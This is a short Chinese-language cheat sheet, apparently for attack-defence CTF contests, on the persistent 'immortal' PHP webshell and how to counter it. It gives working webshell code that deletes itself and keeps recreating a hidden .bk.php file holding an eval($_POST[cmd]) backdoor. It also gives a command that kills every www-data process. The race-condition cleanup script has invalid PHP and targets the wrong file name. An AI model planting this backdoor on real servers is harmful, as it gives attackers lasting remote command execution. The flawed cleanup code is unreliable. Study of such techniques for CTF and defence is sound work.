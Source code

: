 # 不死马
ps -aux|grep ‘www-data’|awk ‘{print $2}’|xargs kill -9
```php
<?php
set_time_limit(0);
ignore_user_abort(1); #1表示，忽略与客户端断开连接，继续执行脚本
unlink(__FILE__); #执行完后删除自身
while (1) {
$content = '<?php @eval($_POST[cmd]);?>';
file_put_contents(".bk.php", $content);
usleep(1000); #停一会
}
?>
```
# 创建同名文件夹对抗不死马

其中`.bk.php`为隐藏的不死马，本命令含义为先删除`.bk.php`再创建同名文件夹`.bk.php`
```shell
mkdir .bk.php&rm .bk.php
```

或者编写一个shell脚本来进行删除

```shell
#! /bin/bash
rm .bk.php
mkdir .bk.php
```
# 条件竞争删除不死马
```php
<?php
set_time_limit(0);
ignore_user_abort(1); #1表示，忽略与客户端断开连接，继续执行脚本
unlink(__FILE__); #执行完后删除自身
while (1) {
$content = "<?php eval(system('rm -rf ./bk.php'););?>";#自行根据不死马名称进行调整
file_put_contents(".bk.php", $content);#自行根据不死马名称进行调整
usleep(100); #一定要比不死马的时间短
}
?>
```
